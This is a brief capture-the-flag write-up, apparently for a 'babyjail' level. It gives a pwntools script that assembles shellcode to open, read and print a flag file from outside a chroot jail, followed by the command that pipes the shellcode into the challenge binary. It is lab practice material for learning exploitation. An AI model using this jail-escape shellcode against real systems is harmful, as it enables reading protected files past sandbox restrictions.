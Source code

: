 
using only openat, read, write. read contents to the shellcode buf which is 4K, read at begin +1K
scripts:   
```
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=shellcraft.openat(3, "../../flag")
shellcode+=shellcraft.read(4, 0x13373e8, 0x100)
shellcode+=shellcraft.write(1, 0x13373e8, 0x100)
shellcode=asm(shellcode)
sys.stdout.buffer.write(shellcode)
```
`python3 resolve.py | /challenge/babyjail_level3 /home/hacker/`
